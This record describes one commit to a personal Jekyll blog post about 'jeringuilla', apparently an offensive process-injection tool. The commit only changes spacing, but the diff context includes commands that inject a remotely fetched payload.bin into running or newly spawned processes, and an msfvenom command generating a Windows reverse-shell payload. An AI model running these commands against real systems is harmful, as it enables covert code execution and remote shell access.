

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2023-7-4-jeringuilla.md, in a window 1280 px wide. Shown: the part 313-2233 px from the top of the page at 77% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-7-4-jeringuilla.md

````diff
--- a/_posts/2023-7-4-jeringuilla.md
+++ b/_posts/2023-7-4-jeringuilla.md
@@ -23,8 +23,9 @@
 
 Link: [https://github.com/ricardojoserf/jeringuilla](https://github.com/ricardojoserf/jeringuilla)
 
+<br>
 --------------------------------------
-<br><br><br>
+<br>
 
 ## List process
 
@@ -48,8 +49,10 @@
 ```
 ![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jeringa/Screenshot_1.png)
 
+<br>
 --------------------------------------
-<br><br><br>
+<br>
+
 
 ##  Injection type "inject-crt" (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread)
 
@@ -74,8 +77,10 @@
 ```
 ![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jeringa/Screenshot_3.png)
 
+<br>
 --------------------------------------
-<br><br><br>
+<br>
+
 
 
 ##  Injection type "inject-apc" (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC)
@@ -100,9 +105,10 @@
 jeringuilla.exe inject-apc 1234 http://127.0.0.1/payload.bin
 ```
 
+<br>
+--------------------------------------
+<br>
 
---------------------------------------
-<br><br><br>
 
 ##  Injection type "earlybird" (CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread)
 
@@ -126,8 +132,10 @@
 jeringuilla.exe earlybird "c:\windows\system32\calc.exe" http://127.0.0.1/payload.bin
 ```
 
+<br>
 --------------------------------------
-<br><br><br>
+<br>
+
 
 ## Payload generation
 
@@ -145,8 +153,10 @@
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f raw > payload.bin
 ```
 
+<br>
 --------------------------------------
-<br><br><br>
+<br>
+
 
 ## AES Encryption
 
````
